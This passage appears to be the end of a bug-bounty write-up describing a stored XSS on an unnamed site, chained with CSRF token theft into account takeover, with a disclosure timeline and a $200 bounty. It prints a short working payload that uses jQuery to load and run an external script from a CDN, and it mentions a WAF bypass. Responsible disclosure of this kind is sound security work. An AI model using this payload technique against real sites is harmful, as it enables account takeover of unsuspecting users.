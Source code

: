 3. **Craft the Stored XSS payload** with jQuery (under 100 characters) to load the external script:  

```html
<svg/onclick=$.getScript("//cdn.jsdelivr.net/gh/userGitHub/js/3.js")>
```

The following image is the Stored XSS payload leveraging jQuery to load external script:

<img width="1128" height="448" alt="Stored XSS Payload" src="https://github.com/user-attachments/assets/06bb7b57-cd14-4da1-89eb-177d7c536c13" />

4. Once the payload executes in the victim’s browser, the script retrieves the CSRF token and updates the profile:

<img width="900" height="573" alt="Account Takeover HTTP Request" src="https://github.com/user-attachments/assets/f3419dd8-f499-4768-8d51-06b3f4a18705" />

Victim’s account password successfully changed.

## Impact

By chaining a **Stored XSS** with **CSRF token extraction** and a weak profile update policy, this attack escalated to a **full account takeover**.

Key factors that enabled this exploitation:
- 100-character limit bypassed via **jQuery script loader**.
- External code hosted on **GitHub + CDN**.
- **Cloudflare WAF bypassed** with minimal obfuscation.
- No password verification required for account updates.

## Timeline & Bounty

- **December 14, 2024** – Vulnerability discovered during testing
- **December 14, 2024** – Initial report submitted to the program
- **December 25, 2024** – Triaged and confirmed by the security team
- **December 27, 2024** – Updated report: XSS impact escalated to Account Takeover
- **January 20, 2025** – **Reward:** $200 bounty (maximum payout for ATO in this program)

<img width="281" height="667" alt="BountyReward" src="https://github.com/user-attachments/assets/60b9fc38-127c-4cb8-b7fc-4a63cced3ebe" />

**Author:** Erik Villegas
